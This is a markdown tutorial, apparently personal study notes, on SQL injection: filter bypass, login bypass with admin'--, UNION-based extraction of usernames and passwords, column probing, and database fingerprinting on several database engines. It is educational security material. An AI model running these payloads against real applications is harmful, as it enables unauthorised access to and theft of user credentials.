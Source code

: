 # SQL injection

1. [SQLi](#sqli)
2. [SQLi Union](#sqli-union)
3. [Examining Database](#examining-database)
4. [SQLi CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

* SQLi - web security vulnerability; allows attacker to interfere with queries made by app to database.

* SQLi allows attacker to view data they are not supposed to retrieve; they can modify/delete this data, or escalate it to compromise the server or perform a denial-of-service attack.

## SQLi

* Retrieving hidden data:

  * Suppose the URL for a website is ```https://insecure-website.com/products?category=Gifts```. For this, the SQL query would be like:

    ```sql
    SELECT * FROM products WHERE category = 'Gifts' AND released = 1
    ```

  * The attacker can construct an attack like ```https://insecure-website.com/products?category=Gifts'--```. This gives us the query:

    ```sql
    SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1

    -- acts as a comment in the query
    ```

  * The attacker can also use ```https://insecure-website.com/products?category=Gifts'+OR+1=1--```, which gives us the query:

    ```sql
    SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
    ```

* Subverting app logic:

  * For app login, suppose the following SQL query is used:

    ```sql
    SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
    ```

  * The attacker can login without password by using the username ```admin'--``` in order to cut short the query:

    ```sql
    SELECT * FROM users WHERE username = 'admin'--' AND password = ''
    ```

* Retrieving data from other database tables:

  * Suppose the application executes a query based on user input 'Gifts':

    ```sql
    SELECT name, description FROM products WHERE category = 'Gifts'
    ```

  * Then, the attacker can submit the input using ```UNION```:

    ```sql
    ' UNION SELECT username, password FROM users--
    ```

## SQLi Union

* For ```UNION``` queries to work, the two sub-queries must return same number of columns, with compatible data types.

* Finding number of columns required:

  * Method 1 - ```ORDER BY``` clauses are used, incrementing the column index:

    ```sql
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    #until error occurs
    ```
  
  * Method 2 - ```UNION SELECT``` payloads with null values (compatible with all):

    ```sql
    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ' UNION SELECT NULL,NULL,NULL--
    #until error modified
    ```

* Finding columns with useful data type:

  ```sql
  ' UNION SELECT 'a',NULL,NULL--
  ' UNION SELECT NULL,'a',NULL--
  ' UNION SELECT NULL,NULL,'a'--
  #until error does not occur, then relevant column is apt for string data
  ```

* Retrieving interesting data:

  ```sql
  ' UNION SELECT username, password FROM users--
  #provided there is a table 'users' with 2 columns 'username' and 'password'
  ```

* Retrieving multiple values within single column:

  ```sql
  ' UNION SELECT username || '~' || password FROM users--
  #concatenate output in Oracle using pipe operator

  ' UNION SELECT NULL,username || '~' || password FROM users--
  #differs based on number of columns
  ```

## Examining Database

* Querying database type & version:

  ```sql
  ' UNION SELECT @@version--
  #output if Microsoft SQL server

  ' UNION SELECT * FROM v$version
  #output if Oracle

  ' UNION SELECT version()
  #output if PostgreSQL
  ```

* Listing contents of database:

  ```sql
  SELECT * FROM information_schema.tables
  #returns table names

  SELECT * FROM information_schema.columns WHERE table_name = 'Users'
  #shows columns and data types of table
  ```

  ```sql
  #on Oracle
  #list tables
  SELECT * FROM all_tables

  #list columns
  SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
  ```
